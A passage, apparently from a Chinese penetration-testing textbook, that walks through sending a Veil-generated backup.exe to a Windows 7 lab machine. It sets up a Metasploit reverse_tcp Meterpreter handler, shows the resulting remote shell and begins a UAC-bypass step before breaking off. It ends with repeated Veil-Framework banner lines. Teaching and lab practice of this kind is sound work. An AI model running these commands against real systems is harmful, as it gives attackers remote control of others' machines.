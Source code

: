 从输出的信息中可以看到生成一个可执行文件 backup.exe，并且该文件保存在/root/veil-output/compiled/中。此时将可执行文件 backup.exe 发送到目标主机上，就可以利用该攻击载荷了。

接下来需要使用 Metasploit 创建一个远程处理器，等待目标主机连接到 Kali Linux（攻击主机）操作系统。连接成功后，就获取到一个远程 Shell 命令。

【实例 6-6】创建远程处理器。具体操作步骤如下所示。

（1）启动 MSF 终端。

（2）使用 handler 模块。执行命令如下所示：

```
msf > use exploit/multi/handler 
```

（3）加载 reverse_tcp 攻击载荷，并设置其选项参数。执行命令如下所示：

```
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.6.103
LHOST => 192.168.6.103 
```

（4）启动渗透攻击。执行命令如下所示：

```
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.6.103:4444
[*] Starting the payload handler… 
```

从输出信息可以看到攻击载荷已启动，正在等待连接目标主机。

此时将前面生成的可执行文件 backup.exe 发送到目标主机（Windows 7），并运行该可执行文件。然后返回到 Kali Linux 操作系统，将看到如下所示的信息：

```
[*] Sending stage (769536 bytes) to 192.168.6.110
[*] Meterpreter session 1 opened (192.168.6.103:4444 -> 192.168.6.110:2478) at 2014-07-17 10:44:47 +0800
meterpreter > 
```

从以上信息中，可以看到成功打开了一个 Meterpreter 会话。这表示已成功渗透攻击目标主机，现在就可以进行一些 Shell 命令。如进行目标主机的 Shell 环境，执行命令如下 所示：

```
meterpreter > shell
Process 1544 created.
Channel 1 created.
Microsoft Windows [版本 6.1.7601]
              (c) 2009 Microsoft Corporation
C:\Users\lyw\Desktop> 
```

输出的信息表示进入了目标系统 Windows 7 的命令行，并且当前目标系统登录的用户是 lyw。

如果以上用户没有太高权限时，可以使用 Metasploit 中的 bypassuac 模块绕过 UAC（用户访问控制），进而提升用户的权限。下面将介绍使用 bypassuac 模块提升以上 lyw 用户的权限。

（1）将 Meterpreter 会话，调用到后台运行。执行命令如下所示：


 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework